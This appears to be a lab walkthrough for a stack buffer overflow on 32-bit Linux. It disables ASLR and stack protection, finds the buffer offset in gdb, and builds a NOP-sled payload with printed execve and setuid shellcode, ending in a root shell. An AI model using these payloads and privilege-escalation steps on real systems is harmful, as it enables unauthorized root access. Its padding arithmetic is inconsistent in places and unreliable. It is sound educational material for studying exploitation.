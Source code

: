 # Stack based buffer-overflow on Cent OS(or any x32 linux OS)

Stack grows from high address to low address (while buffer grows from low - high address) 

Vuln.c is a c program that has a function strcopy (buf, name) that will allow more read of bytes than the buffer size (100) from the second argument.

```python
  void func(char *name){
    char buf[100];
    strcpy(buf, name); // The following statement has a buffer overflow problem
    printf("Welcome %s\n", buf);
  }
```
The function strcpy() does not check whether the boundary of buf[] has reached. It simply copies the contents from name to buffer[] and only stops when seeing the end-of-string character ‘\0’. If the string pointed by buf has more than 100 chars, contents in the memory above buf [] will be overwritten by the characters at the end of name.  So, this leads to stack-based buffer overflow and we can overwrite anything that can come after that buffer. Thus, we know the vulnerability and we can prepare an exploit.

<b>Address space layout randomization (ASLR)</b> causes the addresses of the stack to be randomized. This causes a lot of difficulty in predicting addresses while exploitation. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of buf will not change. Thus, ASLR is turned off on root first by the command:
```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

•	Vuln.c is compiled in root using: 
```python
gcc vuln.c -o vuln -fno-stackprotector -z execstack
```
-g tells GCC to add extra information for GDB

-fno-stackprotector is a flag to turn off stack protection mechanism

-z execstack makes the vuln file stack executable

•	I set permission of the vuln file as an executable binary that is owned by root, has the suid bit set to be user executable, and is vulnerable to buffer overflow. Mainly, it is set like this for debugging by the other user in gdb( GNU debugger).

# Procedures in GDB:
DO THESE PROCEDURES BELOW BY ANY OTHER USER THAN ROOT TO GAIN ROOT SHELL...

<b>a. Find out where the start of the buffer is in memory: </b>

```python
(gdb) print $ebp
$1 = (void *) 0xbfffeb38
(gdb) print $ebp - 0x6c
$2 = (void *) 0xbfffeacc
(gdb) quit
A debugging session is active.
```

 buf lies at ebp - 0x6c.
 0x6c is 108(100 + framept(4-current+4-prev) in decimal, Disassemble main method and it will show dump of registers. 
 Look for the part where is function call: ebp is the base of stack pointer which I will use instead of $esp. However, EBP is a pointer to the top of the stack when the func() is first called. So, I thought this as offset bytes before.

print $ebp - 0x6c will give start of the buffer.

<b>b. Fill the register with appropriate size NOP (X90)</b>

We fill the first 40 bytes with NOP instructions, constructing a NOP Sled. It makes the processor jump to the address of buf (taken from gdb’s output) minus x bytes to get somewhere in the middle of the NOP sled.

Start of buffer: 0xbfffeacc - some bytes(172- ac in hex)... 0xbfffea20(roughly I used this arbitrary bytes to get somewhere in the middle of the NOP sled)  

[ Intel CPU’ we have endian structure: \x20\xea\xff\xbf ]

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the problem of not knowing the address of buf exactly and increases chances of getting into our shell code.

<b>c. We can fill the rest 47 (112 - 25 - 40) bytes with random data, say the ‘A’ character. </b>

This is a part to play around & 47 As might be overestimate...And return address starts after the first 112 bytes of buf. 108 +4( roughly because I ran the debugger with 104 As)
 
 Final payload structure: [40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xbfffea20]

Prepared 25 byte long shell code which tells VM to launch a shell: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*37 + "\x20\xea\xff\xbf"')
```
( 37 As was the right amount! )

Note that above part have code execution but not root shell access. It happens due to the protection in /bin/bash. We remove the restriction by:
setuid(0) + setgid(0) + execve("/bin/sh", ["/bin/sh", NULL])
Thus, we have 37 byte shell code to gain root access:

\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*27 + "\x20\xea\xff\xbf"')
Welcome ????????????????????????????????????????jX1?̀j.XS̀1?j
                                                           XRh//shh/bin??RS??̀AAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-3.2# whoami
root
```
